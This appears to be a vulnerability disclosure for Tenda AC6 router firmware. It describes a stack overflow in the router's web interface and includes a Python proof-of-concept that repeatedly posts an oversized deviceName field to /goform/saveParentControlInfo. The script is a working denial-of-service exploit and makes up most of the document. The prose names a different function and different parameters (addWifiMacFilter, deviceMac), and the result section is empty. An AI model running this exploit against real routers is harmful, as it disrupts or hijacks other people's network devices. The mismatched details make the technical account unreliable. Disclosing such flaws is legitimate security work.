


#### Tenda-AC6

###### Affected version

AC6-V1.0BR_V15.03.05.19

###### Vulnerability details

In the addWifiMacFilter function, the parameter lengths of devicevID and deviceMac passed through POST are not verified, causing stack overflow during the sprintf memory copy process, causing a denial of service and even hijacking the function return address. Since Tanda-ac6 can be set without a password, a strong password should be set and kept well.

###### Validation script

~~~python
import requests
import time

url = "http://192.168.0.1/goform/saveParentControlInfo"
data = {
    "deviceId": "12:12:12:12:12:12",
    "deviceName": "a" * 1024
}

headers_template = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Referer": "http://192.168.0.1/parental_control.html",
    "Connection": "close"
}

def send_request_with_updated_cookie(retries=3, delay=1):
    session = requests.Session()
    cookie_value = "mdncvb"

    for i in range(retries):
        print(f"\nTrying the {i+1}th request...")
        headers = headers_template.copy()
        headers["Cookie"] = f"password={cookie_value}"

        try:
            response = session.post(url, headers=headers, data=data, allow_redirects=False, timeout=5)

            set_cookie = response.headers.get("Set-Cookie")
            if set_cookie:
                cookie_value = set_cookie.split(";")[0].split("=")[1]
                print(f"Get new cookies:{cookie_value}")
            else:
                print("No new cookie was obtained.")

            print(f"Response status code: {response.status_code}")

        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")

        time.sleep(delay)

send_request_with_updated_cookie(retries=100, delay=1)
~~~

###### result

